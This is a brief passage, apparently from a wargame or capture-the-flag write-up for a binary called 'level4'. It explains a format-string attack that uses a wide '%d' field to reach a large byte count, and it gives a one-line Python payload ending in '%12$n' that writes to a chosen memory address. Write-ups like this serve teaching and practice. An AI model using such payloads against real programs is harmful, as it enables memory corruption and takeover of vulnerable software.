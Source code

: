 The previous method will be too long

There is a trick with the modifier "%d", "%XXXd" will get an XXX size int

We can generate our number of bytes like that

$ python -c 'print "\x10\x98\x04\x08"+"%16930112d%12$n"' | ./level4